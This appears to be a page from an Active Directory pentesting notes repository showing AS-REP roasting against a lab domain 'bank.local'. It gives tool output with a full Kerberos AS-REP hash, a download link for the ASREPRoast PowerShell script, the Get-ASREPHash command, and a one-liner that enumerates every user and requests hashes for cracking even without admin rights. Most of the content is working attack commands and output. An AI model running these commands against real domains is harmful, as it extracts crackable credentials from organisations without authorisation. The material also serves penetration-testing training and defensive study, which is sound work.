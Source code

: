 ```bash
  v2.0.0


[*] Action: AS-REP roasting

[*] Target Domain          : bank.local

[*] Searching path 'LDAP://DC01.bank.local/DC=bank,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : AsrepRoastUser
[*] DistinguishedName      : CN=AsrepRoast User,CN=Users,DC=bank,DC=local
[*] Using domain controller: DC01.bank.local (fe80::69e4:c7b6:29d1:847f%5)
[*] Building AS-REQ (w/o preauth) for: 'bank.local\AsrepRoastUser'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$23$AsrepRoastUser@bank.local:224332F49C1EB8E5B0B98CF7A8DFA308$1EE690FF09E4E5AC4B0E013F52FA3006A468F809401B698E294CB937B38F1C1CAAC44BE5C825A31139D709E12F32C0B715467132D4519D0BF6633FECB8C227000AF57E76145473D8DA58A855771FFFCF986F4938CE8F255AA00CC85347CB0B67DDF0E32CB180D18639F6E59320C598B2A60118894C0ECB3A60913129A79B63EAF87B0EFA86C53D1ADDCC966EE3D2C71F11BAF8F0DEB07F0B094FB04AA84D8F9CCB247F6229BF10B88B20520A32454281D6E9C5402F2D89E1C0CE12110AACB8769E07DFC128D1BD21E86141ED306BAB2AD868ABA237E167A2A7E924A3DF5BC2CD0735BA85E88234FE

# Download (ASREPRoast)
https://raw.githubusercontent.com/HarmJ0y/ASREPRoast/master/ASREPRoast.ps1

# Commands (ASREPRoast)
Get-ASREPHash -Username AsrepRoastUser

# Output
$krb5asrep$AsrepRoastUser@bank.local:64aec4f448950fcc28b74073a2b21b80$333efa323aa6a76925a38d0ccc2a20e5f84de6fa96901a0ac83e9dced1c69fe07273f02f998c7b661770b61f6cae941fc58bc28a9df0c1443a7add3d61532963214ba5f34d9a03a89ba9612ada74451c071c4b0e82654a117ad466423937d941618050cc53ce25a07a47918684adc37c2b4d15c6aa4c1079e8cf23cd594e70fd0bde7cd249c298933794d2b09b80937179f214a2041d7fbea181da47c5eaa45ac6c92d49d0587d5486d4a3fc3203c65f0a038dbae6afa7b6a232a1984ab277580f183f037a4483fbe269cf7bd84b573be9effddb4bc575020094936c933b51f008ef451e6185e9f6
```

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210810223314.png)

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210810223253.png)

- If we do not have Admin privileges , we might have difficulty to run PowerView to enumerate. This is because we cannot view the useraccount control attributes as low privilege user. The solution we can try bruteforce it using **adsisearcher** and **Get-ASREPHash**

```
# Commands
([adsisearcher]"(&(samAccountType=805306368))").FindAll().Properties.samaccountname | %{Get-ASREPHash -UserName $_ -ErrorAction SilentlyContinue}
```
